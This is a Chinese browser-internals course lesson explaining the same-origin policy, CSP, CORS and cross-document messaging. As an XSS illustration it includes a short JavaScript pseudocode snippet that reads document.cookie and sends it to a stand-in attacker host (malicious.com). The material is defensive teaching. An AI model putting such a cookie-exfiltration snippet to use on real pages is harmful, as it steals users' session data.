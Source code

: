 
---
title: 李兵-浏览器工作原理与实践
---

32 | 同源策略：为什么XMLHttpRequest不能跨域请求资源？

通过前面6个模块的介绍，我们已经大致知道浏览器是怎么工作的了，也了解这种工作方式对前端产生了什么样的影响。在这个过程中，我们还穿插介绍了一些浏览器安全相关的内容，不过都比较散，所以最后的5篇文章，我们就来系统地介绍下浏览器安全相关的内容。

浏览器安全可以分为三大块——**Web页面安全、浏览器网络安全**和**浏览器系统安全**，所以本模块我们就按照这个思路来做介绍。鉴于页面安全的重要性，我们会用三篇文章来介绍该部分的知识；网络安全和系统安全则分别用一篇来介绍。

今天我们就先来分析页面中的安全策略，不过在开始之前，我们先来做个假设，如果页面中没有安全策略的话，Web世界会是什么样子的呢？

Web世界会是开放的，任何资源都可以接入其中，我们的网站可以加载并执行别人网站的脚本文件、图片、音频/视频等资源，甚至可以下载其他站点的可执行文件。

Web世界是开放的，这很符合Web理念。但如果Web世界是绝对自由的，那么页面行为将没有任何限制，这会造成无序或者混沌的局面，出现很多不可控的问题。

比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：

- 修改银行站点的DOM、CSSOM等信息；
- 在银行站点内部插入JavaScript脚本；
- 劫持用户登录的用户名和密码；
- 读取银行站点的Cookie、IndexDB等数据；
- 甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。

<!-- [[[read_end]]] -->

所以说，**在没有安全保障的Web世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全**。

这就引出了页面中最基础、最核心的安全策略：**同源策略（Same-origin policy）**。

## 什么是同源策略

要了解什么是同源策略，我们得先来看看什么是同源。

**如果两个URL的协议、域名和端口都相同，我们就称这两个URL同源**。比如下面这两个URL，它们具有相同的协议HTTPS、相同的域名time.geekbang.org，以及相同的端口443，所以我们就说这两个URL是同源的。

```
https://time.geekbang.org/?category=1
https://time.geekbang.org/?category=0
```

浏览器默认两个相同的源之间是可以相互访问资源和操作DOM的。两个不同的源之间若想要相互访问资源或者操作DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。

具体来讲，同源策略主要表现在DOM、Web数据和网络这三个层面。

**第一个，DOM层面**。同源策略限制了来自不同源的JavaScript脚本对当前DOM对象读和写的操作。

这里我们还是拿极客时间的官网做例子，打开极客时间的官网，然后再从官网中打开另外一个专栏页面，如下图所示：

![](https://static001.geekbang.org/resource/image/c9/d7/c9294ee10c571c8b7061a5c8f03b6cd7.png)

通过极客时间官网打开一个专栏页面

由于第一个页面和第二个页面是同源关系，所以我们可以在第二个页面中操作第一个页面的DOM，比如将第一个页面全部隐藏掉，代码如下所示：

```
{
let pdom = opener.document
pdom.body.style.display = "none"
}
```

该代码中，对象opener就是指向第一个页面的window对象，我们可以通过操作opener来控制第一个页面中的DOM。

我们在第二个页面的控制台中执行上面那段代码，就成功地操作了第一个页面中的DOM，将页面隐藏了，如下图：

![](https://static001.geekbang.org/resource/image/2a/25/2a988d3d2f82aa4230f2b5025134b125.png)

通过第二个页面操纵第一个页面的DOM

不过如果打开的第二个页面和第一个页面不是同源的，那么它们就无法相互操作DOM了。比如从极客时间官网打开InfoQ的页面（由于它们的域名不同，所以不是同源的），然后我们还按照前面同样的步骤来操作，最终操作结果如下图所示：

![](https://static001.geekbang.org/resource/image/71/b5/711d96a58f670bda0d9b9608165839b5.png)

不同源的两个页面不能相互操纵DOM

从图中可以看出，当我们在InfoQ的页面中访问极客时间页面中的DOM时，页面抛出了如下的异常信息，这就是同源策略所发挥的作用。

```
Blocked a frame with origin "https://www.infoq.cn" from accessing a cross-origin frame.
```

**第二个，数据层面**。同源策略限制了不同源的站点读取当前站点的Cookie、IndexDB、LocalStorage等数据。由于同源策略，我们依然无法通过第二个页面的opener来访问第一个页面中的Cookie、IndexDB或者LocalStorage等内容。你可以自己试一下，这里我们就不做演示了。

**第三个，网络层面**。同源策略限制了通过XMLHttpRequest等方式将站点的数据发送给不同源的站点。你还记得在[《17 | WebAPI：XMLHttpRequest是怎么实现的？》](https://time.geekbang.org/column/article/135127)这篇文章的末尾分析的XMLHttpRequest在使用过程中所遇到的坑吗？其中第一个坑就是在默认情况下不能访问跨域的资源。

## 安全和便利性的权衡

我们了解了同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。

不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得Web项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是XSS攻击和CSRF攻击，这两种攻击我们会在后续两篇文章中再做介绍，本文我们只聊浏览器出让了同源策略的哪些安全性。

### 1\. 页面中可以嵌入第三方资源

我们在文章开头提到过，Web世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有HTML文件、JavaScript文件、CSS文件、图片等资源都部署在同一台服务器上，这无疑违背了Web的初衷，也带来了诸多限制。比如将不同的资源部署到不同的CDN上时，CDN上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往HTML文件中插入恶意脚本。

比如，恶意程序在HTML文件内容中插入如下一段JavaScript代码：

![](https://static001.geekbang.org/resource/image/74/de/741dc2c53217aee177d18375a7aa94de.png)

当这段HTML文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的的敏感数据，如Cookie、IndexDB、LoacalStorage等数据通过XSS的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意JavaScript代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：

```
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```

在这段代码中，恶意脚本读取Cookie数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的Cookie信息。

以上就是一个非常典型的XSS攻击。为了解决XSS攻击，浏览器中引入了内容安全策略，称为CSP。**CSP的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联JavaScript代码**。通过这些手段就可以大大减少XSS攻击。

### 2\. 跨域资源共享和跨文档消息机制

默认情况下，如果打开极客邦的官网页面，在官网页面中通过XMLHttpRequest或者Fetch来请求InfoQ中的资源，这时同源策略会阻止其向InfoQ发出请求，这样会大大制约我们的生产力。

为了解决这个问题，我们引入了**跨域资源共享（CORS）**，使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。

在介绍同源策略时，我们说明了如果两个页面不是同源的，则无法相互操纵DOM。不过在实际应用中，经常需要两个不同源的DOM之间进行通信，于是浏览器中又引入了**跨文档消息机制**，可以通过window.postMessage的JavaScript接口来和不同源的DOM进行通信。

## 总结

好了，今天就介绍到这里，下面我来总结下本文的主要内容。

同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。

不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：

1.  页面中可以引用第三方资源，不过这也暴露了很多诸如XSS的安全问题，因此又在这种开放的基础之上引入了CSP来限制其自由程度。
2.  使用XMLHttpRequest和Fetch都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。
3.  两个不同源的DOM是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。

## 思考时间

今天留给你的作业：你来总结一下同源策略、CSP和CORS之间的关系，这对于你理解浏览器的安全策略至关重要。

欢迎在留言区与我分享你的想法，也欢迎你在留言区记录你的思考过程。感谢阅读，如果你觉得这篇文章对你有帮助的话，也欢迎把它分享给更多的朋友。
    